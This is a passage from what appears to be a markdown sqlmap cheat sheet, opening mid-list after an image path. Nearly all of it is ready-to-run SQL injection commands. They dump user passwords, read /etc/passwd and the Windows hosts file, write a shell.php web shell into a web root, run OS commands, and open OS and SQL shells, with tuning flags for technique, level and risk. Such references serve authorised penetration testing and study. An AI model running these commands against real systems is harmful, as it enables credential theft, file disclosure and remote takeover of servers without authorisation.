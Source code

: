 ```bash
# Get user passwords
sqlmap -r request.txt --passwords
```

### System Details
```bash
# Get hostname
sqlmap -r request.txt --hostname

# Get database banner
sqlmap -r request.txt --banner
```

## Advanced Exploitation

### File Operations
```bash
# Read system files
sqlmap -r request.txt --file-read="/etc/passwd"
sqlmap -r request.txt --file-read="C:\Windows\System32\drivers\etc\hosts"

# Write files to system
sqlmap -r request.txt --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

### Command Execution
```bash
# Execute OS commands
sqlmap -r request.txt --os-cmd="whoami"
sqlmap -r request.txt --os-cmd="id"

# Get OS shell
sqlmap -r request.txt --os-shell

# Get SQL shell
sqlmap -r request.txt --sql-shell
```

## Detection & Testing Options

### Injection Techniques
```bash
# Specify techniques (B=Boolean, E=Error, U=Union, S=Stacked, T=Time, Q=Inline)
sqlmap -r request.txt --technique=B     # Boolean-based blind only
sqlmap -r request.txt --technique=T     # Time-based blind only
sqlmap -r request.txt --technique=U     # Union-based only
sqlmap -r request.txt --technique=BEUST # Multiple techniques
```

### Testing Levels & Risk
```bash
# Set testing level (1-5, default: 1)
sqlmap -r request.txt --level=3
sqlmap -r request.txt --level=5

# Set risk level (1-3, default: 1)
sqlmap -r request.txt --risk=2
sqlmap -r request.txt --risk=3

# Combine level and risk
sqlmap -r request.txt --level=5 --risk=3
```
